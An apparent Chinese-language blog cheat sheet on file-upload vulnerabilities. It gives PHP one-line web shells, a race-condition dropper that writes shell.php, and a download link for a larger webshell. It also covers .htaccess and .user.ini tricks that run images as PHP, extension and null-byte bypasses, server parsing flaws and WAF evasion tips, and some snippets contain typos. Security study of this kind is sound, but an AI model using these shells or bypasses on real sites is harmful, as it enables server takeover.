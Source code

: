 ```yaml
---
layout: post
title: upload方法大全
categories: [web,upload]
---
```

# 文件上传漏洞
## 木马后门  
### 一句话木马
```php
	<?php @eval($_POST["cmd"]); ?>
	Cookie
	<?php @$a = $_COOKIE[1];$b =''; $c =''; @assert($b.$a); ?>
```
```js
	<script language="php">@eval($_POST['cmd'])</script>
```

### 小马
### 大马  
>链接：https://pan.baidu.com/s/1NM1kD7bEa_aUEqZxVaplpg?pwd=p2s8  
>提取码：p2s8

---

## 文件上传绕过方法
>删除/禁用js、修改拓展名、修改MIME类型、等价拓展名、大小写、htaccess、双写、空格、点、  
>::$DATA、%00截断、0X00截断、图片马、条件竞争等等  
---

### MINE类型
>常见Content-Type
1.image/gif 
2.image/png 
3.image/jpeg    
4.text/plain
5.text/html  
6.application/pdf  

### 文件内容
1.文件幻数  有`GIF89a`等等  
2.文件相关信息  
3.图片渲染  
>对图片进行代码注入
![php](/img/1php.png)  
![house](/img/house.png)  
4.二次渲染
>使用溢出攻击实现

### 文件后缀

#### 1.黑名单  
>后缀大小写(.Php)、  
>空格(.php )、  
>点(.php.)、  
>(.php::$DATA)、  
>Apache解析漏洞不识别`.rar`/`.owf`(.php.rar.owf)  
>.user.ini文件
```
	auto_prepend_file=2.jpg
```
>.htaccess文件  
```htaccess
	<FilesMatch "shell.png">
	SetHandler application/x-httpd-php
	</FileMatch>  
```  
>文件夹绕过  `upload/shell.php/.`让系统误以为upload.php是文件夹，实际解析时为php文件  


#### 2.白名单  
>%00截断、0X00截断 shell.php`%00`.png
>POST方式注意在hex编码处将空格`0x20`改为`0x00`  
##### 逻辑数组绕过
>白名单是，可以payload `/upload/shell.php/.jpg`   
>服务端检测时会将`shell.php`识别为文件夹，但解析后会识别为php文件  
---
### 竞争条件攻击  
>一些网站先允许任意文件上传，再对文件内容进行检测  
>检测到删除之间存在时间差  
>可以在时间差内生成新的`shell.php`  
  
#### 上传的php代码
```php
	<?php
		fputs(fopen('../shell.php','w'),'<?php @eval(&_POST['cmd']);?>');
	?>		
```

## 中间件漏洞上传

### 解析漏洞
#### Apache
1.[Tomcat CVE-2017-12615 漏洞](https://minelords.github.io/2023/07/21/CVE-2017-12615-%E5%A4%8D%E7%8E%B0/)  
2.`/shell.php.xxx` 当Apache无法识别.xxx后缀，会将文件向左解析。   
3.换行解析漏洞  
`合法后缀配置文件中的正则表达式中$不仅匹配字符串结尾位置，还可以匹配\n或\r，在解析php时，1.php\%0A将按照.php进行解析，而’.php\%0A’ != ‘.php’,可能过滤时过滤了.php但没有过滤.php\%0A从而实现绕过。`  
```
<FilesMatch \.php$>
 	SetHandler application/x-httpd-php
<FilesMatech>`>
```
#### Nginx  
若上传文件保存地址为`/upload/xxx.jpg`，在后面加上`/1.php`,则会将文件当php执行    
#### IIS 
版本较老，少见，以后再看   

### 编辑器漏洞
Fckeditor等等  

# waf绕过  
## 垃圾数据溢出
插入Content-Disposition  
## 符号变异
单引号双引号匹配  
## 数据截断
>%00    换行  